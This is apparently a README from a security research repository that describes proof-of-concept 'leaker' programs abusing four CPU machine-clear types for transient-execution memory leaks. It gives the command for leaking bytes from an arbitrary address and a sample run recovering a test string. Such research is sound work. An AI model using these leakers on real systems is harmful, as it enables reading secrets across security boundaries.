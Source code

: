 # Leakers
This folder contains a some example code how Machine Clears can be used to perform transient operations. These programs
can be called in two ways:

* `./leak` : the program will leak a local string containing "This is a test to verify that it leaks"
* `./leak <addr> <n>` : the program will leak `<n>` from the provided address `<addr>`. 

Four lekears are present, abusing respectively the following machine clears:

* Floating Point Machine Clear
* Memory Ordering Machine Clear
* Self-Modifying Code Machine Clear
* Croos-Modifying Code Machine Clear

# Example of a succesful run:

```
0x0000000000402028 :
	00001000: 54 (T)
0x0000000000402029 :
	00001000: 68 (h)
0x000000000040202a :
	00001000: 69 (i)
0x000000000040202b :
	00001000: 73 (s)
0x000000000040202c :
	00001000: 20 ( )
0x000000000040202d :
	00001000: 69 (i)
0x000000000040202e :
	00001000: 73 (s)
0x000000000040202f :
	00001000: 20 ( )
0x0000000000402030 :
	00001000: 61 (a)
0x0000000000402031 :
	00001000: 20 ( )
0x0000000000402032 :
	00001000: 74 (t)
0x0000000000402033 :
	00001000: 65 (e)
0x0000000000402034 :
	00001000: 73 (s)
0x0000000000402035 :
	00001000: 74 (t)
0x0000000000402036 :
	00001000: 20 ( )
0x0000000000402037 :
	00001000: 74 (t)
0x0000000000402038 :
	00001000: 6f (o)
0x0000000000402039 :
	00001000: 20 ( )
0x000000000040203a :
	00001000: 76 (v)
0x000000000040203b :
	00001000: 65 (e)
0x000000000040203c :
	00001000: 72 (r)
0x000000000040203d :
	00001000: 69 (i)
0x000000000040203e :
	00001000: 66 (f)
0x000000000040203f :
	00001000: 79 (y)
0x0000000000402040 :
	00001000: 20 ( )
0x0000000000402041 :
	00001000: 74 (t)
0x0000000000402042 :
	00001000: 68 (h)
0x0000000000402043 :
	00001000: 61 (a)
0x0000000000402044 :
	00001000: 74 (t)
0x0000000000402045 :
	00001000: 20 ( )
0x0000000000402046 :
	00001000: 69 (i)
0x0000000000402047 :
	00001000: 74 (t)
0x0000000000402048 :
	00001000: 20 ( )
0x0000000000402049 :
	00001000: 6c (l)
0x000000000040204a :
	00001000: 65 (e)
0x000000000040204b :
	00001000: 61 (a)
0x000000000040204c :
	00001000: 6b (k)
0x000000000040204d :
	00001000: 73 (s)
```
